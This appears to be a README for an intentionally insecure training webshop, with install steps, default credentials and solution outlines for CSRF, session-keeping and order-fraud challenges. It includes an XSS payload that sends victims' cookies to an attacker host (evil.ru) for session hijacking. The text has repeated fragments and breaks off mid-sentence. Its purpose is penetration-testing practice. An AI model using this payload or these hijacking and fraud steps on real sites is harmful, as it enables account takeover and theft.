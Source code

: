 [![Docker](https://github.com/BenjiTrapp/Project-Makalu/actions/workflows/docker-publish.yml/badge.svg)](https://github.com/BenjiTrapp/Project-Makalu/actions/workflows/docker-publish.yml)

# Project [Makalu](https://de.wikipedia.org/wiki/Makalu) - An unsecure Webshop with an intentional broken Session Handling
In the course of the new online store of the **anna group** a new session handling is needed. The code presented here 
code is about to go live. In spite of the rapid development there are doubts whether
 something important has been forgotten?

### Motivation
Modern WebApps sometimes have an enormous complexity. In order to protect the customer from possible attacks, among other things, requests made to a WebApp require a login session. A request usually requires the data from a previous 
previous response (e.g. CSRF tokens). The data received in a partial request may also be needed some requests later, e.g. during checkout. 
such as during the checkout process. This makes the use of "unique" names/IDs during the creation of a request necessary. 
 
**Remark**: Fuzzing e.g. in the context of a CSRF token, generates a lot of data as well as calls within the WebApplication. This can affect the performance of the entire application in the event of an attack. The performance itself,
is NOT the focus of this penetration test, but can become a "problem" for the attack, depending on the chosen fuzzing method. 

## Problem Statement:
 Help the **anna group** to test the security of the session handling through a penetration test. To fulfill this request
 the application must first be installed and made operational. Here helps 
 the following instructions will certainly help:
 
## Install & launch the WebApp
1. using Docker
     ```
     1. ``$ docker pull nyctophobia/project-makalu``
     2. ``$ docker run -d -p 4711:4711 nyctophobia/project-makalu``
     3. open in browser: "http://localhost:4711"
     ```
2. Using Docker Compose
     ```
     1. pull Git repository from GitHub (git pull https://github.com/BenjiTrapp/Project-Makalu.git)
     2. change to the directory
     3. ``docker-compose up``
     4. open in browser: ``http://localhost:4711``
     ```
3. locally in the IDE
     ```
     1. edit the file https://github.com/BenjiTrapp/Project-Makalu/blob/master/ProjectMakaluApp.py: 
            Change host in main method from 0.0.0.0 to 127.0.0.1. 2.
     2. start edited main method in IDE e.g. PyCharm
     ```

##### [Credentials](https://www.heise.de/security/meldung/hallo-ist-meistgenutztes-deutsches-Passwort-auf-Platz-zehn-steht-ficken-3579567.html): user/hallo

## Execution of the penetration test
The following use cases exist for the test. To perform the penetration test the file 
"/doc/Burp.burp-projectopts.json" can be loaded as a project using [Burp](https://portswigger.net/burp/freedownload/). 
can be loaded. The JSON file contains all session handling rules to solve the following challenges.
to solve. The challenges can of course also be solved with other tools such as OWASP ZAP.

#### Use Case: Build your own CSRF token
```
[Challenge]: The transmitted CSRF token must match and be transmitted with every POST request.

[Solution]:
* Capture the request from an existing CSRF token.
* Create a "Run a Macro" session handling rule
    * Scope the CSRF token parameters.
    * Update the CSRF token ONLY in the currently submitted request.
```

#### Use Case: Take over another user's session using [XSS gap](https://www.owasp.org/index.php/Testing_for_Cross_site_scripting)

```
[Challenge]: Find an input field that contains an XSS vulnerability and use it to hijack an unsuspecting victim's session.

[Solution]:
* Place inline JavaScript in a suitable location such as: 
    <script>window.location="http://evil.ru/?cookie=" + document.cookie;</script> 
* Extract the captured cookie from the request and take over the session. 
```

#### Use Case: Keep the login session open
```
[Challenge]: With a probability of 5%, WebApplications terminate the login session.

[Solution]:
* Capture the login request in a macro.
* Create a "Check Session is Valid" rule
    * Create a request
    * Check the response body for a username for the valid session
    * Alternatively, check the redirection of the login URL (the session must be invalid for this case)
    * Play the recorded macro when the session is invalidated
```
    
#### Use Case: commit order fraud 
```
[Challenge]: Perform multiple requests until the final order confirmation appears.

[Solution]:
* Perform all requests until one can be fuzzed using a macro.
* Finalize the order fraud with a "Run a Post-Request Macro", that will confirm the
